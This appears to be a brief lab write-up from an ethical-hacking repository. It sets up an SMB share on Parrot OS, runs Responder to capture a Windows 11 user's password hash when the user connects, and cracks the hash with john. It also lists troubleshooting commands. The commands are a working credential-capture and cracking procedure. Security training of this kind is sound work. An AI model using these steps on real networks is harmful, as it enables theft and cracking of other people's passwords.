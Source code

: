Retrieve password using 'Responder'

### Images and Instance Configurations

- **win11 c5large 65gb**
- **Parrot OS c5 65gb**

### Parrot OS / Kali
```bash
sudo apt-get update
sudo apt-get install samba
```
```bash
mkdir /home/parrot/sharefolder
```

#### Command to Share Folder via SMB

To share a folder on Parrot OS, execute the following command:

```bash
sudo net usershare add sharefolder /home/parrot/sharefolder "A secret folder shared via SMB" everyone:F guest_ok=y
```

Run Responder with the interface from "ip a":
```bash
sudo responder -I ens5
```

#### Access Shared Folder on Windows 11

1. On Windows 11, press `Win + R` to open the Run dialog.
2. Type `\\[Parrot_private_IP]` and press Enter.

> **Note:** When trying to enter the password, an error may occur, and the hash will appear on Parrot OS.

#### Responder Logs on Parrot OS

Responder logs are stored in the following directory:

```plaintext
/usr/share/responder/logs
```

To process the captured hashes, use `john`:

```bash
john SMB-xxxxxxxx- TAB
```
![image](https://github.com/pinhers/Ethical-Hacking/assets/145346889/fbc80557-4c7f-454d-a580-ee86b84835a4)

### Troubleshooting

If you need to troubleshoot issues related to SMB, use the following commands:

1. Check which processes are using port 445:
    ```bash
    sudo lsof -i :445
    ```

2. Stop the `smbd` service:
    ```bash
    sudo systemctl stop smbd
    ```
